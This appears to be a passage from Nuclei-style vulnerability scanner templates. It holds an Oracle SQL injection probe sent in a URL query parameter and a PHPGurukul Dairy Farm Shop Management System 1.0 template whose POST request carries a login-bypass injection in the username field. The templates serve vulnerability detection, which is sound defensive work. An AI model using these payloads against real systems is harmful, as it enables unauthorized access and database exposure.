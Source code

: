 ## Requests

- Method - GET

### URL

- {{BaseURL}}/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1

### Matchers

**Type - word**

- words
  1. DatabaseError at
  2. ORA-29257:
  3. ORA-06512:
  4. Request Method:
- condition - and

---

# PHPGurukul Dairy Farm Shop Management System 1.0 - SQL Injection

## Description

- PHPGurukul Dairy Farm Shop Management System 1.0 is vulnerable to SQL injection, as demonstrated by the username parameter in index.php, the category and CategoryCode parameters in add-category.php, the CompanyName parameter in add-company.php, and the ProductName and ProductPrice parameters in add-product.php.
- severity - critical
- tags - sqli,edb,cve,cve2020

## Requests

### Step - 1

```
POST /dfsms/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin%27+or+%271%27+%3D+%271%27%3B+--+-&password=A&login=

```

### Matchers

**Type - word**
